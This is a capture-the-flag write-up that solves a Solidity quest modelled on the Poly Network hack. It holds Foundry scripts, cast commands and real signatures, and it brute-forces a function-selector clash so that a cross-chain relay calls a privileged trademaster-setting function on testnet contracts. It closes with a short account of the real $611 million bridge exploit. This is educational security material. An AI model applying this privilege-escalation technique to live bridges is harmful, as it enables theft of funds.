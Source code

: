```yaml
---
title: Poly Network Rekt
weight: 1
type: docs
---
```


- Link: https://nodeguardians.io/dev-hub/quests/poly-rekt</br>
- About: ctf</br>
- Author: Julien</br>
- Difficulty: 🗡🗡🗡🗡</br>
- Language: Solidity</br>
- Skill Cat: Security</br>

---

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled.png)

First here the the boat address on Goerli (the target contract we have to interact with):

```solidity
cast call $TRADING_BOAT_GOERLI --rpc-url $RPC_URL_GOERLI "tradingData()(address)"

> 0xFDDa11C6504db2Cf760F3cb53253D88cF8A5a593
```

Now we can try to interact with the bridge contract on Fuji chain:

```solidity
cast send $TRADING_BOAT_FUJI  --private-key $PRIVATE_KEY --rpc-url $RPC_URL_FUJI "sendShipment(string,bytes32[],uint64,address)(bytes32)" "setTrademasters" [0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6] 0x5 $TRADING_DATA_GOERLI
```

output:

```solidity
0x97bc653aac2c7b476cefe65e9df32d34caf31f670e4f36a441000963f8df3a37
```

Now we can call the offchain trademaster to generate a signature:

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%201.png)

```solidity
Signature: 0x265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c
```

Let’s create a script to automate the process:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address PUBLIC_KEY = vm.envAddress("PUBLIC_KEY");
        address TRADING_BOAT_GOERLI = vm.envAddress("TRADING_BOAT_GOERLI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c";
        boat.relayShipment("setTrademasters", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```

Now we can relay the message on the goerli chain using the following script:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address PUBLIC_KEY = vm.envAddress("PUBLIC_KEY");
        address TRADING_BOAT_GOERLI = vm.envAddress("TRADING_BOAT_GOERLI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"265d347b6819c4aa0de6f96f9874b9e78a1b2ad38d16068196ed532eb4d9f96c063a6779057b5cef1ecfb3752a4789bfae1e53cf073adef07ba928cf01a38c401c";
        boat.relayShipment("setTrademasters", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```

without a surprise the contract revert :

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%202.png)

This is because the relay function add some params (bytes32[],uint64,address) that we don’t need and that change the function selector resulting in calling the wrong method on the target contract:

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%203.png)

We can see on the error message above that we call the selector `0x3b2e7145` whereas we were expecting to call `0xef51774d` :

![Untitled](Poly%20Network%20Rekt%20b9b5dc8e661043d186f21308cc502756/Untitled%204.png)

Now we know that it’s pretty much straight forward what we have to do: brutforce the *method params so that `abi.ecodePacked(\_*method, (bytes32[], uint64, address)`result in the`0xef51774d` selector.

In order to do that I installed the following program that seems to do the job:

[https://github.com/botdad/power-clash](https://github.com/botdad/power-clash)

```bash
> docker run --rm power-clash -a bytes32[],uint64,address -s ef51774d -p setTrademasters
> Attempting to find setTrademasters******(bytes32[],uint64,address) match for 0xef51774d in 19770609664 max permutations
> Calculating 6277782.5 permutations per second
> Found match in 902.78942008s
> setTrademastersLMuGgO(bytes32[],uint64,address) hashes to 0xef51774d
```

and Bingo! we have it : `setTrademastersLMuGgO(bytes32[],uint64,address) hashes to 0xef51774d`

Now we can do the say process as before but using the new function name.

Here is the signature we got:

```bash
Signature: 0xeb8f7dc8da0fce482b52e20d85dc0f602c2932acea3170e3f4cea0a752855545505ac6ff2587c7d4d43b4936361832c4fd54c7a2a75d3f63efd23190f735f7771c
```

fuji.s.sol

```bash
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address TRADING_BOAT_FUJI = vm.envAddress("TRADING_BOAT_FUJI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_FUJI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes32 bridgeHash = boat.sendShipment("setTrademastersLMuGgO", params, 5, TRADING_DATA_GOERLI);
        console.logBytes32(bridgeHash);

        vm.stopBroadcast();
    }
}
```

goerli.s.sol

```bash
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {TradingBoat} from '../contracts_/TradingBoat.sol';

contract POC is Script {
    function run() external {

        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address PUBLIC_KEY = vm.envAddress("PUBLIC_KEY");
        address TRADING_BOAT_GOERLI = vm.envAddress("TRADING_BOAT_GOERLI");
        address TRADING_DATA_GOERLI = vm.envAddress("TRADING_DATA_GOERLI");

        vm.startBroadcast(deployerPrivateKey);

        TradingBoat boat = TradingBoat(TRADING_BOAT_GOERLI);
        bytes32[] memory params = new bytes32[](1);
        params[0] = 0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6;
        bytes memory signature = hex"eb8f7dc8da0fce482b52e20d85dc0f602c2932acea3170e3f4cea0a752855545505ac6ff2587c7d4d43b4936361832c4fd54c7a2a75d3f63efd23190f735f7771c";
        boat.relayShipment("setTrademastersLMuGgO", params, 43113, PUBLIC_KEY, TRADING_DATA_GOERLI, signature);

        vm.stopBroadcast();
    }
}
```

## **Poly Network**

Poly Network is a cross-chain protocol that facilitates cross-chain interaction between otherwise disconnected blockchains.

Poly Network is more advanced than King Baku's network. For instance, it uses merkle roots to batch cross-chain transactions, and a multi-signature scheme to improve decentralization.

However similar to our `TradingBoat` contracts, Poly Network partitions its cross-chain contracts into 2 entities:

1. `EthCrossChainManager` which handles the cross-chain verification and execution logic.

2. `EthCrossChainData` which manages important information regarding cross-chain trademasters and calls.

The partition allows Poly Network to upgrade `EthCrossChainManager` via proxy, while asserting `EthCrossChainData` as immutable.

## **Privilege Escalation Attack**

The attack on `TradingBoat` and Poly Network is enabled by the same two underlying reasons.

- The manager contract (`TradingBoat`/`EthCrossChainManager`) has access to some privileged external function (`setTrademasters()`/`putCurEpochConPubKeyBytes()`).
- The manager contract can call any function in any contract via selector clashing.

Consequently, a malicious attack can search for a selector clash that forces the manager contract to call the privileged external function, and invoke unexpected effects.

Poly Network has lost $611 million to this form of privilege escalation attack. Fortunately, the hacker has since return the stolen funds for a bug bounty reward.
